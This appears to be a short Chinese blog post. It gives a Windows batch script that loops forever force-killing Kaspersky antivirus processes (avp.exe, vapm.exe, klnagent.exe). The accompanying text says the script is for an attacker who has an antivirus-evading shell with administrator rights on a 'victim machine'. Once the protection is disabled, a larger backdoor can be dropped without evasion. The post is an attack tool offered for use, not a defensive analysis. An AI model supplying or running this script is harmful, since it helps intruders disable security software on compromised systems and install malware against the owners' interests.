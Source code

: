 ```yaml
---
layout:     post
title:      管理员权限杀卡巴斯基进程
date:       2018-08-31
summary:    管理员权限杀卡巴斯基进程
categories: web
tags:
 - kaspersky
---
```


### Code

```
:start
taskkill /F /IM avp.exe
taskkill /F /IM vapm.exe
taskkill /F /IM klnagent.exe
goto start
```


### About

可用于一个管理员权限运行的免杀shell中执行这个批处理文件,运行后会不断强制杀死kaspersky的进程,但不会彻底杀掉,因为kaspersky会自动复活,但上面这个无限循环可使kaspersky的保护功能失效.可用上的场景:

+ 1.受害机当前用户为administrator
+ 2.受害机运行了一个免杀的shell(功能有限的shell,功能越少越好免杀),这个shell只有执行命令的功能
+ 3.通过shell运行上面的批处理”杀死“kaspersky后再上大马，大马可不用免杀
